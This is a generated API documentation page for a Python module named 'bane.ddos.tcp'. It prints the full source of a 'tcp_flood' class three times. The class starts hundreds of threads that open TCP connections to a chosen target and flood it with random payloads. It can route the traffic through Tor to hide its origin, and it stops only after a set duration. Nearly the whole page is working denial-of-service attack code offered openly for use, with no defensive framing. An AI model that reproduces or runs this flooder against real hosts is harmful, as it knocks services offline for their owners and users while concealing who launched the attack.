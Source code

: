 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.ddos.tcp</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.ddos.utils import *

class tcp_flood(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        threads_daemon=True,
        min_size=10,
        max_size=50,
        threads=256,
        timeout=5,
        round_min=1000,
        round_max=10000,
        interval=0.001,
        duration=60,
        logs=False,
        tor=False,
    ):
        self.logs = logs
        self.stop = False
        self.counter = 0
        self.start = time.time()
        self.target = u
        self.duration = duration
        self.port = p
        self.timeout = timeout
        self.tor = tor
        self.min_size = min_size
        self.max_size = max_size
        self.interval = interval
        self.round_min = round_min
        self.round_max = round_max
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
            except:
                pass

    def attack(self):
        try:
            time.sleep(1)  # give time for all threads to be created
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    s = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
                    if self.tor == False:
                        s.settimeout = (
                            self.timeout
                        )  # we can&#39;t set timeout with socks module if we are going to use a socks proxy
                    if self.tor == True:
                        s.setproxy(
                            socks.PROXY_TYPE_SOCKS5, &#34;127.0.0.1&#34;, 9050, True
                        )  # let the traffic go through tor
                    s.connect((self.target, self.port))  # connect to target
                    if (self.port == 443) or (self.port == 8443):
                        s = ssl.wrap_socket(
                            s, ssl_version=ssl.PROTOCOL_TLSv1
                        )  # use ssl if needed on specific ports
                    for l in range(
                        random.randint(self.round_min, self.round_max)
                    ):  # send packets with random number of times for each connection (number between &#34;round_min&#34; and &#34;round_max&#34;)
                        if (
                            int(time.time() - self.start) &gt;= self.duration
                        ):  # this is a safety mechanism so the attack won&#39;t run forever
                            break
                        if stop == True:
                            break
                        m = &#34;&#34;
                        for li in range(
                            random.randint(self.min_size, self.max_size)
                        ):  # each payload&#39; size is chosen randomly between maximum and minimum values
                            m += random.choice(lis)
                        try:
                            if stop == True:
                                break
                            s.send(m.encode(&#34;utf-8&#34;))
                            self.counter += 1
                            if self.logs == True:
                                sys.stdout.write(
                                    &#34;\rPackets: {} | Bytes: {}   &#34;.format(
                                        self.counter, len(m)
                                    )
                                )
                                sys.stdout.flush()
                                # print(&#34;Packets: {} | Bytes: {}&#34;.format(tcp_counter,len(m)))
                            time.sleep(self.interval)
                        except:
                            break
                        time.sleep(self.interval)
                    s.close()
                except:
                    pass
                time.sleep(0.1)
            self.kill()
        except:
            pass</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-classes">Classes</h2>
<dl>
<dt id="bane.ddos.tcp.tcp_flood"><code class="flex name class">
<span>class <span class="ident">tcp_flood</span></span>
<span>(</span><span>u, p=80, threads_daemon=True, min_size=10, max_size=50, threads=256, timeout=5, round_min=1000, round_max=10000, interval=0.001, duration=60, logs=False, tor=False)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">class tcp_flood(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        threads_daemon=True,
        min_size=10,
        max_size=50,
        threads=256,
        timeout=5,
        round_min=1000,
        round_max=10000,
        interval=0.001,
        duration=60,
        logs=False,
        tor=False,
    ):
        self.logs = logs
        self.stop = False
        self.counter = 0
        self.start = time.time()
        self.target = u
        self.duration = duration
        self.port = p
        self.timeout = timeout
        self.tor = tor
        self.min_size = min_size
        self.max_size = max_size
        self.interval = interval
        self.round_min = round_min
        self.round_max = round_max
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
            except:
                pass

    def attack(self):
        try:
            time.sleep(1)  # give time for all threads to be created
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    s = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
                    if self.tor == False:
                        s.settimeout = (
                            self.timeout
                        )  # we can&#39;t set timeout with socks module if we are going to use a socks proxy
                    if self.tor == True:
                        s.setproxy(
                            socks.PROXY_TYPE_SOCKS5, &#34;127.0.0.1&#34;, 9050, True
                        )  # let the traffic go through tor
                    s.connect((self.target, self.port))  # connect to target
                    if (self.port == 443) or (self.port == 8443):
                        s = ssl.wrap_socket(
                            s, ssl_version=ssl.PROTOCOL_TLSv1
                        )  # use ssl if needed on specific ports
                    for l in range(
                        random.randint(self.round_min, self.round_max)
                    ):  # send packets with random number of times for each connection (number between &#34;round_min&#34; and &#34;round_max&#34;)
                        if (
                            int(time.time() - self.start) &gt;= self.duration
                        ):  # this is a safety mechanism so the attack won&#39;t run forever
                            break
                        if stop == True:
                            break
                        m = &#34;&#34;
                        for li in range(
                            random.randint(self.min_size, self.max_size)
                        ):  # each payload&#39; size is chosen randomly between maximum and minimum values
                            m += random.choice(lis)
                        try:
                            if stop == True:
                                break
                            s.send(m.encode(&#34;utf-8&#34;))
                            self.counter += 1
                            if self.logs == True:
                                sys.stdout.write(
                                    &#34;\rPackets: {} | Bytes: {}   &#34;.format(
                                        self.counter, len(m)
                                    )
                                )
                                sys.stdout.flush()
                                # print(&#34;Packets: {} | Bytes: {}&#34;.format(tcp_counter,len(m)))
                            time.sleep(self.interval)
                        except:
                            break
                        time.sleep(self.interval)
                    s.close()
                except:
                    pass
                time.sleep(0.1)
            self.kill()
        except:
            pass</code></pre>
</details>
<h3>Ancestors</h3>
<ul class="hlist">
<li><a title="bane.ddos.utils.DDoS_Class" href="utils.html#bane.ddos.utils.DDoS_Class">DDoS_Class</a></li>
</ul>
<h3>Methods</h3>
<dl>
<dt id="bane.ddos.tcp.tcp_flood.attack"><code class="name flex">
<span>def <span class="ident">attack</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def attack(self):
    try:
        time.sleep(1)  # give time for all threads to be created
        while True:
            if (
                int(time.time() - self.start) &gt;= self.duration
            ):  # this is a safety mechanism so the attack won&#39;t run forever
                break
            if self.stop == True:
                break
            try:
                s = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
                if self.tor == False:
                    s.settimeout = (
                        self.timeout
                    )  # we can&#39;t set timeout with socks module if we are going to use a socks proxy
                if self.tor == True:
                    s.setproxy(
                        socks.PROXY_TYPE_SOCKS5, &#34;127.0.0.1&#34;, 9050, True
                    )  # let the traffic go through tor
                s.connect((self.target, self.port))  # connect to target
                if (self.port == 443) or (self.port == 8443):
                    s = ssl.wrap_socket(
                        s, ssl_version=ssl.PROTOCOL_TLSv1
                    )  # use ssl if needed on specific ports
                for l in range(
                    random.randint(self.round_min, self.round_max)
                ):  # send packets with random number of times for each connection (number between &#34;round_min&#34; and &#34;round_max&#34;)
                    if (
                        int(time.time() - self.start) &gt;= self.duration
                    ):  # this is a safety mechanism so the attack won&#39;t run forever
                        break
                    if stop == True:
                        break
                    m = &#34;&#34;
                    for li in range(
                        random.randint(self.min_size, self.max_size)
                    ):  # each payload&#39; size is chosen randomly between maximum and minimum values
                        m += random.choice(lis)
                    try:
                        if stop == True:
                            break
                        s.send(m.encode(&#34;utf-8&#34;))
                        self.counter += 1
                        if self.logs == True:
                            sys.stdout.write(
                                &#34;\rPackets: {} | Bytes: {}   &#34;.format(
                                    self.counter, len(m)
                                )
                            )
                            sys.stdout.flush()
                            # print(&#34;Packets: {} | Bytes: {}&#34;.format(tcp_counter,len(m)))
                        time.sleep(self.interval)
                    except:
                        break
                    time.sleep(self.interval)
                s.close()
            except:
                pass
            time.sleep(0.1)
        self.kill()
    except:
        pass</code></pre>
</details>
</dd>
</dl>
</dd>
</dl>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.ddos" href="index.md">bane.ddos</a></code></li>
</ul>
</li>
<li><h3><a href="#header-classes">Classes</a></h3>
<ul>
<li>
<h4><code><a title="bane.ddos.tcp.tcp_flood" href="#bane.ddos.tcp.tcp_flood">tcp_flood</a></code></h4>
<ul class="">
<li><code><a title="bane.ddos.tcp.tcp_flood.attack" href="#bane.ddos.tcp.tcp_flood.attack">attack</a></code></li>
</ul>
</li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>